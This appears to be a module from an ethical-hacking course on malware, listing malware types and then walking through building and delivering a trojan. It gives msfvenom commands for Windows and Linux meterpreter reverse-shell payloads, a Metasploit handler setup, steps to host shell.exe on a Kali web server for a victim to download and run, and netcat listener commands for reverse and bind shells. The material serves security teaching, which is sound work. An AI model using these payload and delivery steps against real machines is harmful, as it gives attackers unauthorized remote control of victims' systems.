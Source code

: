 # Module 7

**Malware threats**

Malware is a computer software program with the bad intention which is popularly known as a virus, trojan ,etc to interrupt the server, or gain access unauthorize way .

**Introduction to Malware** 

**Trojans:-** This is method of hiding the virus in legitimate software so victim can trustfully execute the program. 

**Adware:-** This virus serves advertisement , as soon as it get delieverd it get hidden on device .

**Botnet:-** Botnet is used to infect computer network , but it also has an advantage phase.

**Backdoors:-** Backdoor name declare the most thing that it means open another doors. It used to gain remote access of any system.

**Ransomware:-**  Cyber criminal encrypt the data of the user and ask for pay rupees for the data. 

**Spyware:-** This is made to collect the information of user without knowing of the user. 

**Know let see how to creates trojan or backdoor**

We use msvenom tool for creating payload 

Command :- msfvenom -p windows/meterpreter\_reverse\_tcp lhost=[our Ip] lport=[any port ] -f exe > shell.exe

This Payload for window 

Payload for linux :-

Command :-  msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf

Know we will see how to gain access through trojan 

Go to the linux open msetasploit 

Msfconsole

Use exploit/multi/handler

Set payload windows/meterpreter\_reverse\_tcp  ##{set same payload}

Set lhosts [your Ip ]

Set port [same on payload]

**Open new tab know set up to deliever the trojan** 

` `***Transfer the payload to the web server of kali linux*** 

mv shell.exe /var/www/htm/asad/shell.exe

know start the server of kali 

cmd:- service apache2 start

Know open the IP to the victim as a website .

With folder name like :- 192.168.2.27/asad/shell.exe

Download it .

Know go to the METASPLOIT tab and run the exploit 

We get that our listner is listening 

Know go to the victim machine and execute the payload 

We got the connection to the Metasploit .

Confirm it by typing sysinfo } ##we got the system detail

There are lots of payload are there for different os and in different language :- <https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom>



Go through this link and try by your self 


**Type of shell** 

**Netcat reverse shell &&  Netcat Bind shell** 

Reverse shell :- In reverse shell victim connect to the attacker .

Command for attacker box is :- nc -lvp 444

lvp  means listening verbose port 

just see the image

![netcat-reverse-shell](Aspose.Words.685b53a9-c587-4b02-8c21-d5d227e53940.001.jpeg)

Netcat Bind shell :- In this shell attacker connect to the user or victim , and victim is listner .

![Netcat bind shell](Aspose.Words.685b53a9-c587-4b02-8c21-d5d227e53940.002.jpeg)

Source of the image is :- <https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/>

For more reverse shell go through this link this is great source of reverse shell cheat sheet :- <https://pentestmonkey.net/cheat-sheet>



Md Asad Ansari

Security analyst

asad@craw.in
